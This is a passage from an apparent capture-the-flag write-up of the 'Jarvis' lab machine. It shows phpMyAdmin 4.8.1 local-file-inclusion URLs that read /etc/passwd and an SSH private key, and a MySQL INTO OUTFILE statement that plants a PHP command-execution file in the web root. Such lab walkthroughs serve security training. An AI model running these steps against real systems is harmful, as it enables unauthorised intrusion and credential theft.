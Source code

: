 ```bash
# http://10.10.10.143/phpmyadmin/
# DBadmin:...     :)

searchsploit phpmyadmin 4.8
# phpMyAdmin 4.8.1 - Remote Code Execution (RCE)  php/webapps/50457.py
searchsploit -x php/webapps/50457.py
# ..."/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_{}".format(session_id)

# http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd

# http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../home/pepper/.ssh/id_rsa
# http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../home/pepper/user.txt
# Permission denied
```

<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Another way to access the system that I can think of is to use the MySql ***into outfile*** statement to upload a malicious file to the web server. In my first test I make sure to choose the correct database (**hotel**) and upload a text file successfully, then check that the file is hosted on the server when I access it from the browser. The next thing is to upload a **.php** file to validate two things, first that the **PHP code is interpreted correctly** and also that I can already **execute commands remotely**. I have already achieved my goal of getting an **RCE** so I can continue the engagement of the box.

```bash
# hotel --> SQL --> SELECT "oldboy was here" INTO OUTFILE "/var/www/html/test.txt"
# http://10.10.10.143/test.txt
# :)

# SELECT "<?php system('whoami'); ?>" INTO OUTFILE "/var/www/html/rce_test.php"
# http://10.10.10.143/rce_test.php
```
